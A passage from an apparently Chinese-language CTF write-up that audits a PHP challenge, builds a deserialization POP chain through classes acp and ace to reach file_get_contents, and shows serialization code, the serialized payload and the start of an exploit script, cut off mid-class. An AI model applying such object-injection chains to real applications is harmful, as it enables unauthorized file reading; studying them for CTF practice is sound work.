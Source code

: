 ```php

  echo $logData; 

} 

else 

{ 

  highlight_file(__file__); 

}

?>
```

审计代码，可以写出pop链：

ace echo_name<-acp toString<-acp construct

但为了利用file_get_contents函数，需要满足if($this->openstack->neutron === $this->openstack->nova)，即强等于要成立，所以可以让NULL===NULL，即nova为NULL

```php+HTML
class acp 

{  

  protected $cinder;  

  public $neutron;

  public $nova= NULL;

}  

$a=new acp();

echo serialize($a);
```

得到结果为：

O:3:"acp":3:{s:9:"*cinder";N;s:7:"neutron";N;s:4:"nova";N;}

```php
 exp：

<?php  

class acp 

{  

  protected $cinder;  

  public $neutron;

  public $nova;

  function __construct() 

  {    

​    $this->cinder = new ace;

  }  
```
